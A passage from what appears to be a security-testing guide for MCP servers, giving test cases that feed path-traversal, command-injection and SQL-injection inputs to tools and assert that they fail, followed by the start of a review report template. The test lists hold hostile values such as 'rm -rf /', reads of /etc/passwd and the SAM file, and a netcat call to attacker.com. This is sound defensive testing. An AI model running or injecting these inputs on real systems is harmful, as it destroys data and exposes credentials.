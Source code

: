 ### Manual Security Testing

**Test Cases:**

1. **Path Traversal:**
```python
# Test with malicious paths
test_paths = [
    "../../../etc/passwd",
    "..\\..\\..\\windows\\system32\\config\\sam",
    "/etc/passwd",
    "C:\\Windows\\System32\\config\\SAM"
]

for path in test_paths:
    result = await mcp.call_tool("read_file", {"path": path})
    assert result["success"] is False
```

2. **Command Injection:**
```python
# Test with command injection attempts
malicious_commands = [
    "test; rm -rf /",
    "test && cat /etc/passwd",
    "test | nc attacker.com 4444",
    "test `whoami`"
]

for cmd in malicious_commands:
    result = await mcp.call_tool("run_command", {"command": cmd})
    assert result["success"] is False
```

3. **SQL Injection:**
```python
# Test with SQL injection attempts
malicious_inputs = [
    "admin' OR '1'='1",
    "'; DROP TABLE users; --",
    "admin' UNION SELECT * FROM passwords--"
]

for username in malicious_inputs:
    result = await mcp.call_tool("search_user", {"username": username})
    # Should not return unauthorized data or error with SQL details
```

## Security Review Report Template

```markdown
# Security Review Report: [MCP Server Name]

**Date**: YYYY-MM-DD
**Reviewer**: [Name]
**Version Reviewed**: [Version]

## Executive Summary

Brief overview of security posture and critical findings.

## Findings

### Critical Vulnerabilities (Address Immediately)

#### 1. [Vulnerability Name]
```